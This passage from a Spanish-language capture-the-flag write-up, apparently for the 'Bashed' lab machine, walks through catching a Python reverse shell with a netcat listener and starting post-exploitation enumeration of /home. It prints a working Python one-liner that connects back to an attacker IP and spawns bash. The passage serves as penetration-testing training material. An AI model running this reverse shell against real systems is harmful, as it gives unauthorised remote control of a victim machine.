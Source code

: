 <h3 id="Python">Usando Reverse Shell de Python</h3>

Con **python**, podemos ganar acceso de manera remota si utilizamos un one-liner que usa sockets para estableces una conexión, entre nuestra máquina y la máquina víctima, PERO no es una sesión interactiva, es decir, que no podremos usar **nano**. 

Nunca esta demás usar siempre otras alternativas. Vamos a hacerlo por pasos:

* Alzamos una **netcat**:
```bash
nc -nvlp 443                              
listening on [any] 443 ...
```

* Utiliza el siguiente one-liner de **Python** que es una **Reverse Shell**:
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("Tu_IP",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

* Observa el resultado en la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.62] from (UNKNOWN) [10.10.10.68] 60532
www-data@bashed:/var/www/html/dev$ whoami
whoami
www-data
www-data@bashed:/var/www/html/dev$
```
Y con esto terminamos.


<br>
<br>
<hr>
<div style="position: relative;">
 <h1 id="Post" style="text-align:center;">Post Explotación</h1>
  <button style="position:absolute; left:80%; top:3%; background-color:#444444; border-radius:10px; border:none; padding:4px;6px; font-size:0.80rem;">
   <a href="#Indice">Volver al Índice</a>
  </button>
</div>
<br>


<h2 id="SSH">Enumeración Servicio SSH</h2>

Bueno, como siempre buscamos el directorio **/home** para encontrar la flag del usuario.
```bash
www-data@bashed:/var/www/html/dev$ cd /home
www-data@bashed:/home$ ls -la
total 16
drwxr-xr-x  4 root          root          4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Jun  2  2022 ..
drwxr-xr-x  4 arrexel       arrexel       4096 Jun  2  2022 arrexel
drwxr-xr-x  3 scriptmanager scriptmanager 4096 Dec  4  2017 scriptmanager
www-data@bashed:/home$ cd arrexel/
www-data@bashed:/home/arrexel$ ls -la
total 32
drwxr-xr-x 4 arrexel arrexel 4096 Jun  2  2022 .
drwxr-xr-x 4 root    root    4096 Dec  4  2017 ..
lrwxrwxrwx 1 root    root       9 Jun  2  2022 .bash_history -> /dev/null
-rw-r--r-- 1 arrexel arrexel  220 Dec  4  2017 .bash_logout
-rw-r--r-- 1 arrexel arrexel 3786 Dec  4  2017 .bashrc
drwx------ 2 arrexel arrexel 4096 Dec  4  2017 .cache
drwxrwxr-x 2 arrexel arrexel 4096 Dec  4  2017 .nano
-rw-r--r-- 1 arrexel arrexel  655 Dec  4  2017 .profile
```